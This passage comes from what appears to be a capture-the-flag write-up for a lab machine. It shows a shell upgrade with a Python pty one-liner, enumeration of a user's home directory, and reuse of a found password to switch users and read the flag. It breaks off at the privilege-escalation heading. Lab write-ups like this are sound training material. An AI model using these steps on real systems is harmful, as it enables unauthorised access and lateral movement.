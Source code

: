 ```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@hackerdog:/$ pwd
pwd
/
```

Then I enumerate the `/home/` directory and the user [REDACTED]’s directory:

```
www-data@hackerdog:/$ ls -l /home/
ls -l /home/
total 4
drwxr-xr-x 5 ollie ollie 4096 Feb 10  2022 ollie
www-data@hackerdog:/$ ls -l /home/ollie/
ls -l /home/ollie/
total 4
-r-x------ 1 ollie ollie 29 Feb 10  2022 user.txt
```

As we can see, the user flag has been restricted access and it could be viewed by only the owner user. I stuck at here for awhile within enumerating things on the system such as finding `.ssh` key, file’s permissions, etc.

```
www-data@hackerdog:/home/ollie$ ls -la
ls -la
total 36
drwxr-xr-x 5 ollie ollie 4096 Feb 10  2022 .
drwxr-xr-x 3 root  root  4096 Feb  6  2022 ..
lrwxrwxrwx 1 root  root     9 Feb  6  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ollie ollie  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ollie ollie 3771 Feb 25  2020 .bashrc
drwx------ 2 ollie ollie 4096 Feb  6  2022 .cache
drwxrwxr-x 3 ollie ollie 4096 Feb  6  2022 .config
drwxrwxr-x 3 ollie ollie 4096 Feb  6  2022 .local
-rw-r--r-- 1 ollie ollie  807 Feb 25  2020 .profile
-rw-r--r-- 1 ollie ollie    0 Feb 10  2022 .sudo_as_admin_successful
-r-x------ 1 ollie ollie   29 Feb 10  2022 user.txt
```

Then I think about the **replay attack** which re-use the previous password found. So I tried it:

```
www-data@hackerdog:/home/ollie$ su ollie
su ollie
Password: REDACTED

ollie@hackerdog:~$ cat user.txt
cat user.txt
THM{REDACTED}
```

It worked! And I easily get the user flag!

### Privilege Escalation → root


[REDACTED]: Bourne-Again shell script, ASCII text executable